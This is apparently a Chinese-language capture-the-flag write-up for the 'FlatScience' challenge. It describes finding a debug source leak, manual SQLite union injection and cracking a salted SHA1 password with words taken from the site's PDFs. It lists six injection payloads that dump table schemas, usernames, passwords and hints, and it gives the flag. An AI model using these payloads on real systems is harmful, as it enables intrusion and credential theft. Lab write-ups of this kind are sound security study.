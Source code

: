 # FlatScience

> sqlite3 注入 + pdf提取

## 思路分析

> 打开首页后是一个界面,有一些pdf链接和html链接.没啥思路,扫目录,发现robots.txt、admin.php、login.php这三个文件,robots.txt里面是后面的二个文件admin.php、login.php.访问admin.php,一个登录框,爆破密码失败,注入没痕迹.打开login.php,虽然爆破也失败,但返回的html源码里有一行注释,说是删除了debug参数,加上debug参数,得到了源码,sqlite3数据库,是存在注入的,可能是网络不好,sqlmap跑不出来,只能手工注入了.order by测出来只有2列,

> SQLite数据库中存在一个sqlite_master默认表,类似于mysql中的information_schema,可以在sqlite_master中查看所有的表名,以及之前执行过的建表语句,详细内容如下:

```
sqlite_master ---- SQLite的系统表.该表记录数据库中保存的表,索引,视图和触发器信息.在创建sqlite数据库时该表会自动创建
sqlite_master表包含5个字段：
type ---- 记录该项目的类型,如：table、index、view、trigger
name ---- 记录该项目的名称,如：表名、索引名等
tbl_name ---- 记录所从属的表名,如索引所在的表名.对于表来说该列就是表名本身.
rootpage ---- 记录项目在数据库页中存储的编号.对于试图和触发器该字段为0或者NULL
sql ---- 记录创建该项目的sql语句

```

> 获取到sqlite3后的数据后,得到账号和密码,从源码中得知密码是用Salz!当密码的sha1加密方式生成的.爆破时间很长,还不一定爆出来,这时想到pdf文件,密码很有可能存在这里面,把所有pdf下载,然后提取里面的词加密去遍历即可.得到admin账号的密码,admin.php登陆即可

## payload

> ' union select 1,name from sqlite_master where type='table' order by name --+

> ' union select name,sql from sqlite_master --+

> ' union select 1, sql from sqlite_master where type='table' and tbl_name='Users' --+

> ' union select 1,group_concat(name,"++++") from Users --+

> ' union select 1,group_concat(password,"++++") from Users --+

> ' union select 1,group_concat(hint,"++++") from Users --+


## flag

> flag{Th3_Fl4t_Earth_Prof_i$_n0T_so_Smart_huh?}